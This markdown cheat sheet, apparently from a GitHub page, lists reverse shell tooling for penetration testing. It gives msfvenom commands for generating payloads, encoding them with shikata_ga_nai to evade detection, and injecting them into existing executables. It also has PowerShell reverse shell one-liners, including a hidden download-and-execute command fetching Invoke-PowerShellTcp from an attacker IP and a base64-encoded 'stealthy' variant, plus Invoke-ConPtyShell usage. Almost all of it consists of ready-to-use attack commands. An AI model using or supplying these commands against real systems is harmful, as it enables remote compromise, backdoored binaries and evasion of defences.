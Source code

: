 ```bash
# WebShells
1. https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.htm#
# PayloadsAllTheThings
2. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
# Reverse Shell Generator
3. https://www.revshells.com/
```
### msfvenom 
<mark>Listing</mark>
```bash
#List Available Payloads
msfvenom -l payloads
#List Encoders
msfvenom -l encoders
#List Available Formats
msfvenom -l formats
```
- <mark>Payload Generation</mark>
```bash
msfvenom -p [PAYLOAD] LHOST=[YOUR_IP] LPORT=[YOUR_PORT] -f [FORMAT] > [payload]

msfvenom -p windows/x64/exec -f exe -o [FileName] CMD="[CMD]"
```
- <mark>Payload Encoding</mark>
```bash
#General
msfvenom -p [PAYLOAD] LHOST=[YOUR_IP] LPORT=[YOUR_PORT] -f [FORMAT] -e [ENCODER] -i [ITERATIONS] > [payload]
#shitaka_ga_nai
msfvenom -p [PAYLOAD] LHOST=[YOUR_IP] LPORT=[YOUR_PORT] -f [FORMAT] -e x86/shikata_ga_nai -i 10  > [payload]
```
- <mark>Payload Injection</mark>
```bash
msfvenom -p [PAYLOAD] LHOST=[YOUR_IP] LPORT=[YOUR_PORT] -f [FORMAT] -x <Path to Executable> -k > [payload]
```
### Invoke-PowerShellTcp 
-  <mark>Basic Use</mark>
```bash
Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [Port]
```
-  <mark>One-Liner</mark>
```bash
# To be executed within CMD prompt
powershell.exe -nop -w hidden -c iex(iwr http://[IP]:[Port]/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [Port]
```

```bash
# When you need to be more stealthy
# Conversion needs to be done using `UTF-16LE` encoding. 
# Otherwise, it won't decode properly.
powershell.exe -nop -w hidden -e [Base64_Encoded_Command]
```
### Invoke-ConPtyShell
-  <mark>Basic Use</mark>
```bash
#Spawn a reverse shell
Invoke-ConPtyShell [IP] [Port]
#Spawn a reverse shell with specific rows and cols size
Invoke-ConPtyShell -RemoteIp [IP] -RemotePort [Port] -Rows 30 -Cols 90
#Spawn a reverse shell (cmd.exe) with specific rows and cols size
```